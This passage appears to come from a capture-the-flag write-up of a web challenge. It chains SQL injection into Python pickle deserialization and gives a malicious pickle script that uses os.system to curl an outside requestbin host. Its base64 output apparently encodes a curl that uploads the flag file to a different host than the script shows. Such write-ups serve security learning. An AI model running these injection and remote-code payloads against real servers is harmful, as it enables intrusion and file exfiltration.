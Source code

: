 Now we need to figure out how to get the server to unpickle this. After some messing around with the SQL, I was able to get the server to unpickle the data by providing this SQL query: `1 UNION SELECT "gASVVwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFZHVja3mUjAhhY3Rpdml0eZSMEmhhY2tpbmcgdGhlIHBsYW5ldJSMAmlklIwEMTMzN5R1Yi4="`:

![](/assets/img/writeups/XMASCTF2022/Elf%20Resources%20Writeup.007.jpg)

Great! Now we need to figure out how to exploit this.

I am familiar with a [vulnerability](https://book.hacktricks.xyz/pentesting-web/deserialization#pickle) which allows for remote code execution when a server "unpickles" untrusted data so let's try crafting a malicious pickle:

```python
import pickle 
import os
import base64

class Elf:

    def __reduce__(self):
        return(os.system,("curl https://eo5ms17xjgmwn5k.m.pipedream.net",))

print(base64.b64encode(pickle.dumps(Elf())))
```

Running the script prints our malicious pickle in Base64:

```
gASVWwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEBjdXJsIC1GIGZsYWc9QC4vZmxhZy50eHQgaHR0cHM6Ly9lb2hpejUzMm9lM2YxaHYubS5waXBlZHJlYW0ubmV0lIWUUpQu
```

Whenever the server unpickles this data, the `__reduce__` function will execute allowing us to get remote code execution. The payload above makes a simple HTTP request to a [requestbin](https://requestbin.com/) I created which will allow me to inspect the requests.
